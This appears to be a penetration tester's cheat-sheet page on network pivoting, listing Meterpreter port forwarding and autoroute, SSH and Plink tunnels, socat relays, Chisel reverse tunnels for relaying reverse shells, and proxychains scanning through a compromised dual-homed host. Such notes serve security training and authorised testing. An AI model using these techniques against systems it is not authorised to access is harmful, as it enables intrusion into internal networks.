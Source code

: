 ```yaml
---
layout: default
title: Pivoting
tags:
    - chisel
    - meterpreter
    - proxychains
    - ssh
    - tunneling
---
```

# Pivoting
## Metasploit
### Port forwarding
With meterpreter session on dual homed machine
```shell
portfwd add -l <local port> -p <target port> -r <target ip>  # Add port forwarding
```
- `-R` for reverse

```shell
portfwd delete -l <local port> -p <target port> -r <target ip>  # Delete specific forwarding
portfwd list                                                    # List
portfwd flush                                                   # Delete all forwardings
```

### Dynamic forwarding
With meterpreter session on dual homed machine
```shell
run autoroute -s <target subnet>         # Adds route for <target subnet>
run autoroute -p                         # Show active routes
route                                    # View accessible networks
route add 10.10.10.0 255.255.255.0 1     # Add route to 10.10.10.0/24 via session 1
route delete 10.10.10.0 255.255.255.0 1  # Delete specific route
route flush                              # Delete all routes
```

## SSH Tunneling
From within SSH session `~C` to access options, otherwise restructure as `ssh <tunneling commands> user@10.10.10.10`

### Local forwarding
```shell
-L <local port>:<target ip>:<remote port>
```
- Forwards a local port to a remote `ip:port`

![local forwarding](../ssh-local.png)

![local forwarding](../ssh-local2.png)

### Remote forwarding
```shell
-R <remote port>:<target ip>:<target port>
```
- Forwards a remote port to a `ip:port` reachable by you (may be `localhost`)

![remote forwarding](../ssh-remote.png)

![remote forwarding](../ssh-remote2.png)

### SSH from remote to local machine
If you don't have an SSH session, create an SSH session with your machine
- Create local user
```shell
useradd -M pentest  # no home directory
usermod -L pentest  # lock account
usermod -s /bin/false pentest  # set shell to /bin/false
service ssh start
```
- Open SSH session from remote host 
```shell
ssh -R <remote port>:<target ip>:<kali port> pentest@10.10.10.10
```

## Plink (PuTTY Link)
Locally
```shell
service ssh start
```
- Transfer `/usr/share/windows-binaries/plink.exe` to target

Remotely
```shell
plink.exe <ssh ip> -P 22 -C -N -L <local port>:<target ip>:<remote port> -l user -pw pass   # Local
plink.exe <ssh ip> -P 22 -C -N -R <remote port>:<target ip>:<target port> -l user -pw pass  # Remote
```

## SOCAT (Linux)
On dual-homed host
```shell
socat TCP4-LISTEN:<local port>,fork TCP4:<target ip>:<target port>
```
- Forwards `<local port>` to `<target ip>:<target port>`

## Chisel
SSH, but reversed; you are the Chisel server and the remote host is the client

### Local Pivot
- Remote port (client) → local port (server)
- We are listening (we are the server)
- Useful for forwarding reverse shells from remote host to our machine

Run locally (server)
```shell
chisel server -p <listen port>
```

Run remotely (client)
```shell
chisel client <server ip>:<server port> <tunnel listen port on client>:<tunnel target>:<tunnel port>
```

### Reverse Pivot
- Local port (server) → remote port (client)
- We are listening (we are the server)
- Useful for reaching machines through a remote host

Run locally (server)
```shell
chisel server -p <listen port> -reverse
```

Run remotely (client)
```shell
chisel client <server ip>:<server port> R:<tunnel listen port on server>:<tunnel target>:<tunnel port>
```

## ProxyChains
Configure `/etc/proxychains.conf` to use a SOCKS5 proxy
```shell
socks5 127.0.0.1 1080
```
Run commands through proxychains
```shell
proxychains nmap -Pn -sT ...
```

## References
- <https://raw.githubusercontent.com/21y4d/Notes/master/Pivoting.txt>
- <https://www.bogotobogo.com/Linux/linux_Secure_Shell_SSH_V_ssh_Reverse_SSH_Tunnel_Remote_Port_Forwarding.php>
    - All credit for SSH tunelling diagrams goes here; they are simply too good to pass up
- <https://www.youtube.com/watch?v=Yp4oxoQIBAM>
- <https://highon.coffee/blog/ssh-meterpreter-pivoting-techniques/>